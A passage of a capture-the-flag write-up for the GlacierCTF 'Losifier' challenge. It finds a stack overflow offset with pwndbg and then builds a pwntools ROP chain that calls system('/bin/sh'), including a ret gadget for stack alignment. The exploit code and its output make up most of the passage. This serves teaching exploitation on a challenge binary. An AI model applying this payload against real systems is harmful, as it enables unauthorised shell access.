 If we crash in the `fwrite` function, it is still possible to find the offset to the return address, because we have still overwritten the return address on the stack. Looking at the `backtrace` in `pwndbg` (in the bottom of the debug-window) we can see the current address we are on (index 0), the return address of the current stack frame (which is where we return back to `printf_handler`), and where we return to after the function `printf_handler` has returned (index 2: 0x616161616c616161, which is the return address)
```console
 ► 0         0x409c3d fwrite+77
   1         0x4018f9 printf_handler+180
   2 0x616161616c616161
   3 0x616161616d616161
   4 0x616161616e616161
   5 0x616161616f616161
   6 0x6161616170616161
   7 0x6161616171616161
```

This gives us the same offset as the first method where we supplied less than 141 bytes of input
```console
pwndbg> cyclic -l 0x616161616c616161
Finding cyclic pattern of 8 bytes: b'aaalaaaa' (hex: 0x6161616c61616161)
Found at offset 85
```


## Creating the Exploit
We have found our offset to be `85`, and can then overwrite the return address on the stack with `system("/bin/sh")` to get a shell (because PIE is disabled, and the binary is statically linked, we don't need a libc leak to find the address of *system*).
```python
rop = ROP(exe)                               # Create ROP payload
rop.raw(b"A"*85)                             # Offset
rop.system(next(exe.search(b"/bin/sh\x00"))) # system("/bin/sh")
```
{: .nolineno}

This payload will however not work, because of a [stack alignment/MOVAPS](https://ropemporium.com/guide.html#) issue, so we need to add 8 bytes before we call *system*.
```console
loevland@hp-envy:~/ctf/glacier/pwn/Losifier$ python3 exploit.py
[+] Opening connection to chall.glacierctf.com on port 13392: Done
[*] Loaded 133 cached gadgets for './chall'
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
```

We use a `ret` instruction for this, as is essentially works as a `nop` instruction, and does nothing to our payload (other than aligning the stack before we call *system*).
```python
rop = ROP(exe)                               # Create ROP payload
rop.raw(b"A"*85)                             # Offset
rop.raw(rop.ret.address)                     # Stack alignment
rop.system(next(exe.search(b"/bin/sh\x00"))) # system("/bin/sh")
```
